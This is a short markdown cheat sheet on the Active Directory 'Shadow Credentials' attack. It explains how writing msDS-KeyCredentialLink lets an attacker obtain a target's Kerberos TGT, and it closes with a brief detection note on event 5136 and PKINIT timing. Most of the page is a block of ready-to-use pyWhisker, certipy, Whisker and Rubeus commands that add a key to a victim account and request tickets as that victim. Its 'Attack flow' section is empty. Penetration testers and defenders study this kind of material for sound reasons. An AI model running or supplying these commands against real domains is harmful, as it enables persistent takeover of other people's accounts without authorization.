

# Shadow Credentials attack

### Affected object / attribute
**`msDS-KeyCredentialLink`** on a user or computer.

### Concept (deep)
Write the attribute → inject your **public key** → target performs **PKINIT** with your key → you get the target’s TGT. No password needed. **Survives password resets** until the key is explicitly removed.

### Attack flow (Mermaid)


### Exhaustive commands
```bash
# ── pyWhisker ────────────────────────────────────────────────────────
python3 pywhisker.py -d corp.local -u attacker -p 'Passw0rd!' \
  --target victim --action add

# ── Authenticate with the certificate ───────────────────────────────
certipy auth -pfx victim.pfx -dc-ip 10.10.10.5

# ── Whisker (Windows) ────────────────────────────────────────────────
Whisker.exe add /target:VICTIM$

# ── Rubeus with the certificate ─────────────────────────────────────
Rubeus.exe asktgt /user:VICTIM$ /certificate:victim.pfx /password:pass /ptt
```

### Detection
**5136** on `msDS-KeyCredentialLink`; **PKINIT** within 5 minutes of the key write; alert on key additions by non-helpdesk.

---
